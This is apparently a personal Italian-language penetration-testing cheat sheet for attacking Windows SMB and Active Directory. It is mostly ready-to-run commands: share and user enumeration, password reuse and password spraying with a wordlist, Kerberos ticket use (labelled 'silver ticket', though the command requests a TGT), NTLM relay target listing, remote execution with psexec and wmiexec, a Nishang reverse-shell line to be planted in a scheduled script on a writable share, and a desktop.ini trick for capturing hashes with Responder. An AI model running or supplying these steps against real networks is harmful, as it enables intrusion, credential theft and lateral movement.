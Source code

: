 ### **ENUMERAZIONE SHARE E PERMESSI**
```bash
cme smb <ip> -u guest -p "" --shares
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

### **ENUMERAZIONE CONTENUTO SHARES**
```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```
### **ENUMERAZIONE ALTRI USERS**
```bash
crackmapexec smb <IP>-u <USER> -p '<PASS>' --users
```
inserisci gli user in una lista e poi prova a vedere se c'è un riutilizzo delle password
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
### **CHECK VULN SU SMB(MS17-010 ECC...)**
```bash
nmap -p445 --script vuln
```
### **CONNESSIONE A SMB DC**
Si usa il silver ticket :)
```bash
impacket-getTGT '<NOME DOMINIO>/<USER>:<PASS>' 
export KRB5CCNAME=<*>.ccache 
impacket-smbclient <USER>@<NOME DC> -k -no-pass
```
Se da errore KRB_AP_ERR_SKEW
```bash
timedatectl set-ntp false
ntpdate -s <NOME DOMINIO>
```
### **PASSWORD SPRAY**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
### **NTLM RELAY**
Controlliamo tra gli share smb se ce ne è uno con "signing:False"
```bash
crackmapexec smb <IP RANGE> --gen-relay-list relay.txt
```
![[Pasted image 20230825154847.png]]

### **PWN**
```bash
cme smb <IP> <USER> -p "<PASS>"
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
poi
```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```
o
```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png)

### **REVERSE SHELL**
In caso te abbia permessi di scrittura sullo share e ci sia uno script che venga runnato ogni tot, sostituisce lo script o aggiungici questa riga
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```
### **SCRITTURA SULLO SHARE**
*Desktop.ini*
Carica un file desktop.ini
```powershell
[.ShellClassInfo]
IconResource=\\<ip>\test
```
logga come utente con i permessi
```bash
smbclient //<IP>/<SHARE> -U <USER>
```
e ascolta con responder
```bash
responder -I tun0 -wPv
```

